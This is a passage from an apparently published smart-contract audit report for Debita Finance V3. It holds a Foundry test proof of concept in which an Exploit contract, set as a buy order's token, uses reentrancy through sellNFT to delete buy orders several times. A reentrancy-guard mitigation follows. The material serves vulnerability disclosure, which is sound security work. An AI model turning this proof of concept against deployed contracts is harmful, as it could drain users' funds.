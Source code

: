 ```solidity
    BuyOrder public buyOrder;
    BuyOrder public buyOrderContract;
    ERC20Mock public AERO;
    Exploit public exploit;

    function setUp() public {
        BuyOrder instanceDeployment = new BuyOrder();
        factory = new buyOrderFactory(address(instanceDeployment));
        AERO = new ERC20Mock();
    }

    function testMultipleDeleteBuyOrder() public {
        address alice = makeAddr("alice");
        deal(address(AERO), alice, 1000e18, false);

        vm.startPrank(alice);
        IERC20(AERO).approve(address(factory), 1000e18);
        exploit = new Exploit();

        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        
        address _buyOrderAddress = factory.createBuyOrder(
            address(AERO),
            address(exploit),
            1,
            1
        );

        exploit.setBuyOrder(_buyOrderAddress);
        buyOrderContract = BuyOrder(_buyOrderAddress);

        buyOrderContract.sellNFT(2);

        vm.stopPrank();
    }

}

```

### Mitigation

Apply reentrancy protection on the function `sellNFT(uint receiptID)`:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/buyOrders/buyOrder.sol#L92

# Issue M-8: Lender may loose part of the interest he has accrued if he makes his lend offer perpetual after a loan has been extended by the borrower 
